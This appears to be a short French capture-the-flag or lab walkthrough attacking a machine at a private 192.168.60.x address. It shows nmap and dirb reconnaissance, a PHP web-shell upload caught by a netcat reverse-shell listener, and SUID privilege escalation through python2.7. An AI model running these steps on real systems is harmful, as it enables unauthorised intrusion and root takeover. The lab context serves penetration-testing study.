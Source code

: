 # Attaque depuis kali:

## Reconnaissance
> nmap 192.168.60.0/24
Visite du site web, on trouve que le serveur utilise php
> dirb http://192.168.60.10/
> dirb http://192.168.60.10/ -X .php

## Reverse shell
Upload de shell.php dans /upload.php
Attente du reverse shell depuis kali:
> nc -nlvp 9001
Ouvrir shell.php dans /uploads

## Escalade de privilèges
Trouver les fichiers avec SUID d'activé:
> find / -perm -u=s -type f 2>/dev/null
Utiliser python pour l'escalade:
> cd /usr/bin
> ./python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
